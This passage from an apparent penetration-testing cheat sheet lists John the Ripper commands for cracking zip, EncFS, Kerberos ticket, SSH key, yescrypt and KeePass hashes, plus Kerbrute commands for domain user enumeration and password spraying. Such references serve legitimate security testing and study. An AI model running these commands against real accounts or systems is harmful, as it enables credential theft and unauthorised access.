 ```console
$ john <FILE> --wordlist=/PATH/TO/WORDLIST/<WORDLIST> --format=raw-md5 --mask='<SALT>?w'
```

### Cracking .zip-Files

```console
$ zip2john <FILE> > <FILE>
```

### Cracking EncFS/6

```console
$ encfs2john <DIRECTORY>/ > encfs6.xml.john
$ john encfs6.xml.john --wordlist=/PATH/TO/WORDLIST/<WORDLIST>
```

### Cracking Kerberoasting Password File

```console
$ john --format=krb5tgs --wordlist=<FILE> <FILE>
```

### Cracking RSA

```console
$ ssh2john id_rsa > <FILE>
$ john <FILE> --wordlist=/PATH/TO/WORDLIST/<WORDLIST> --format=ssh
```

### Cracking yescrypt

```console
$ john <FILE> --wordlist=/PATH/TO/WORDLIST/<WORDLIST> --format=crypt
```

### Extracting Hash from .kdbx File

```console
$ keepass2john <FILE>
```

## Kerbrute

> https://github.com/ropnop/kerbrute

### User Enumeration

```console
$ ./kerbrute userenum -d <DOMAIN> --dc <DOMAIN> /PATH/TO/FILE/<USERNAMES>
```

### Password Spray

```console
$ ./kerbrute passwordspray -d <DOMAIN> --dc <DOMAIN> /PATH/TO/FILE/<USERNAMES> <PASSWORD>
```
